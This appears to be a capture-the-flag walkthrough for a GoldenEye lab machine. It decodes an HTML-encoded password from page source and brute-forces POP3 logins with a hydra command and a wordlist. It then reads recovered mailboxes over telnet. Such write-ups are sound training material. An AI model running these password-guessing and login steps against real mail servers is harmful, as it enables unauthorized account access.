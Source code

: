 ```
```

Check the webserver on port 80. Viewing the sourcecode we can find a HTML encoded passphrase

```
//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//
```

`boris:InvincibleHack3r` are the login creds for this part of the site. we can login with these @ `/sev-home/`

Viewing the source of this gives us another user - `natalya`

We can use this username with hydra and rockyou to penetrate the SMTP server on port 25. Nevermind AUTH is disabled on the port 25, lets try the higher port pop3 servers. 

**I spent hours trying with rockyou to get anything but its too slow so i found fasttrack.txt works as an alternative**

- `hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://goldeneye.thm:55007` gives us natalyas email pass `natalya:bird`. Using the same we also find boris' `boris:secret1!`

We can login to the pop3 email server

1. `telnet goldeneye.thm 55007`
2. `USER boris`
3. `PASS secret1!`
4. check messages with `STAT` this command fives us the amount of messages and the size of the inbox
5. `LIST` will list all emails. Looks like we have 3 of them to check out. We can retrieve each message with `RETR`

- boris email 1

```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
```
